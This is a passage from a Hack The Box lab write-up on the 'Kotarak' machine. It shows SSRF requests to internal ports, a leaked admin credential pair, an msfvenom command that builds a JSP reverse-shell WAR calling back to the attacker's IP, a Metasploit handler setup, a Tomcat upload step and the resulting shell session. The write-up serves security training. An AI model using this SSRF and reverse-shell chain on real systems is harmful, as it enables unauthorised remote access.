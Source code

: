   <kbd><img src="https://github.com/jakobgoerke/HTB-Writeups/blob/master/Kotarak/Images/localhost.8080.result.PNG"></kbd>
  
  It looks like it some kind of proxy, maybe there are other ports internally which are open
  
  After some dirbusting we find this
  ```http://10.10.10.55:60000/url.php?path=127.0.0.1:60000/server-status```
  
  The server status page shows that there are many ports open which has different stuff on it
  
  One of the ports has some juicy info 
  ```http://10.10.10.55:60000/url.php?path=localhost:888/?doc=backup```
  
<kbd><img src="https://github.com/jakobgoerke/HTB-Writeups/blob/master/Kotarak/Images/888.PNG"></kbd>


| Username            | Password            |
| ------------- |:-------------------------:|
| admin    | 3@g01PdhB!     |


Lets try that Username and Password at the 8080 login page

We are in!!

<kbd><img src="https://github.com/jakobgoerke/HTB-Writeups/blob/master/Kotarak/Images/8080login.PNG"></kbd>

Lets create a msfvenom reverse shell payload 
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.15.112 LPORT=4443 -f war > dotalol.war
```

Start a listner with msfvenom

```
msf > use exploit/multi/handler 
msf exploit(handler) > set payload/java/jsp_shell_reverse_tcp 
msf exploit(handler) > set LHOST 10.10.15.112
msf exploit(handler) > set LPORT 4443
msf exploit(handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (java/jsp_shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.15.112     yes       The listen address
   LPORT  4443             yes       The listen port
   SHELL                   no        The system shell to use.
```

Upload the .war to the 

<kbd><img src="https://github.com/jakobgoerke/HTB-Writeups/blob/master/Kotarak/Images/uploadwar.PNG"></kbd>

After we deplot it, we start the listner and visit ```http://kotarak.htb:8080/dotalol/```

```
[*] Command shell session 1 opened (10.10.15.112:4443 -> 10.10.10.55:56176) at 2017-12-24 03:26:20 +0530
